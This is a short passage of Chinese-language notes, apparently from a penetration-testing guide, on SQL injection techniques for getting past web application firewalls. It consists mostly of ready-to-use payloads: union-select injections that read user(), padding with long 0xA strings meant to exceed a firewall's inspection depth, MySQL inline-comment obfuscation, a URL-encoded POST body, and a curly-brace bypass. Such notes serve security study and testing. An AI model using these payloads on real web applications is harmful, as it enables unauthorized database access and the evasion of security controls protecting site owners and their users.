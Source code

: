 ```sql
{'id':1 union select 1,2,3,'submit':1}

```

# 大量字符绕过★★ 

有一定绕过的可能，数据包帧头过长时可能会超过设备的检测深度，导致绕过。

可以使用 select 0xA 运行一些字符从绕突破一些 waf 拦截，如：

```sql
id=1 and (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()
```

下面的案例中使用的注入post提交内容为

```sql
id=1+and+(select+1)and+(select+0xA*1000)/*!union*//*!select*/+1,user()--+&submit=%E6%9F%A5%E8%AF%A2
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677737972484-baad7e7c-2df6-45dc-8d11-3aa8ea5470f8.png)

# 花括号绕过 

```sql
select 1,2 union select{x 1},user()
```

